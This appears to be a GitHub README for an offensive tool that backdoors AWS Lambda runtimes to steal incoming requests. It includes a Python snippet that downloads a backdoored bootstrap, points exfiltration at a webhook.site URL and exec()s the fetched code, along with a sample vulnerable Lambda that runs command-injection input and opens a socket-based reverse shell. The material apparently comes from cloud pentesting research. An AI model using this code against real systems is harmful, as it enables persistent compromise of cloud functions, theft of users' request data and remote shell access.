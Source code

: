 # lambda_bootstrap_switcher

This projects is useful to steal request from lambda and is based on:

- https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/
- https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py
- https://github.com/Djkusik/serverless_persistency_poc/blob/master/aws/exploit_files/evil_bootstrap.py
- https://github.com/aws/aws-lambda-python-runtime-interface-client/tree/main/awslambdaric

For more info check: https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence

To perform this attack you need to find a RCE vulnerability inside a Lambda function, one you have taht you can load the malicious bootstrap from this repo executing:

```python
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```

Note how it's possible to indicate in the env variable `URL_EXFIL` the URL where you want to receive the exfiltrated requests.


If you want to try it you can create a vulnerable Lambda with a code such as:

```python
import json
import os
def lambda_handler(event, context):
    data = "hello"
    if event["queryStringParameters"].get("cmd"):
        data = os.popen(event["queryStringParameters"]["cmd"]).read()
    
    elif event["queryStringParameters"].get("ip") and event["queryStringParameters"].get("port"):
        rev_shell(event["queryStringParameters"]["ip"], int(event["queryStringParameters"]["port"]))
        data = "called rev shell"
    
    return {
        'statusCode': 200,
        'body': json.dumps(data)
    }

def rev_shell(ip, port):
    import socket
    import subprocess
    import os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,int(port)))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
```
